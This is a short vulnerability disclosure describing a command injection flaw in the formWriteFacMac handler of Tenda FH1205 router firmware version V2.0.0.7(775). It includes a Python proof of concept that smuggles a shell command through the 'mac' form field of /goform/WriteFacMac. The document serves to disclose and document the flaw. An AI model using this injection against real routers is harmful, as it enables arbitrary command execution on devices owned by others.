 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775) 

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240319225415852](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225415852.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320003842782](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320003842782.png)
